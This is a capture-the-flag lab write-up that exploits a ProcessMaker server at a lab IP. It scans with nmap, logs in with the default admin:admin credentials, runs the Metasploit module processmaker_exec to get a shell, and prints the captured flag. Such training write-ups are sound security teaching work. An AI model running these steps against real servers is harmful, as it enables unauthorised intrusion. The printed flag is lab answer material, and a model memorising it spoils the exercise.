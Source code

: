 # 🔬Win Workflow Platform - MS

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
> * Target IP: `10.0.28.252`
> * Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.0.28.252
```

```bash
Not shown: 990 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

#### Enumeration <a href="#enumeration" id="enumeration"></a>

* Explore the web application hosted on the web server, before running any vuln scanners
* Search the target IP `10.0.28.252` in browser.

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

* View the web page source code. In this case no **version information** can be found.
* Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login\_Settings)
  * `admin`:`admin`

<figure><img src="../../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation <a href="#exploitation" id="exploitation"></a>

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

<figure><img src="../../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.0.28.252
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
exploit
```

<figure><img src="../../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

```bash
pwd
cd /
dir
cat flag.txt
```

{% hint style="success" %}
**Flag:** `a3dcb4d229de6fde0db5686dee47145d`
{% endhint %}
